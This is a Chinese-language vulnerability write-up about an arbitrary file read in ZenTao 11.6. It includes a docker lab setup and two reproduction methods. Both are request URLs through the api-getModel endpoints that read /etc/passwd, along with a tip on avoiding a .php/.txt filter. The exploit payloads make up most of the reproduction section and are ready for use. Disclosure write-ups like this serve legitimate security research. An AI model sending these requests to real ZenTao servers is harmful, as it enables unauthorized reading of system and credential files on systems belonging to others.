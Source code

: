 # 禅道 11.6 版本 文件读取漏洞

>**Created by：** 一条‘小龍龙
>
>**Team：**TracelessSec
>
>**漏洞描述：** 禅道 11.6 版本 文件读取漏洞

# 0x01 漏洞描述

禅道 11.6 版本中对用户接口调用权限过滤不完善，文件读取漏洞

# 0x02 影响版本

禅道 11.6

# 0x03 环境搭建

```
docker run --name zentao_v11.6 -p 8084:80 -v /u01/zentao/www:/app/zentaopms -v /u01/zentao/data:/var/lib/mysql -e MYSQL_ROOT_PASSWORD=123456 -d docker.io/yunwisdom/zentao:v11.6
```

访问 http://xxx.xxx.xxx.xxx:8084 安装即可

# 0x04 漏洞复现

## 方式一

```bash
http://{ip}:{port}/zentao/api-getModel-file-parseCSV-fileName=/etc/passwd#/
http://{ip}:{port}/api-getModel-file-parseCSV-fileName=/etc/passwd
```

![Untitled](image/Untitled.png)

> 注意以 `.php` `.txt` 结尾的会被 /framework/base/router.class.php中的parsePathInfo方法 过滤
> 

## 方式二

```bash
http://xxx.xxx.xxx.xxx/api-getModel-api-getMethod-filePath=/etc/passwd/1
```
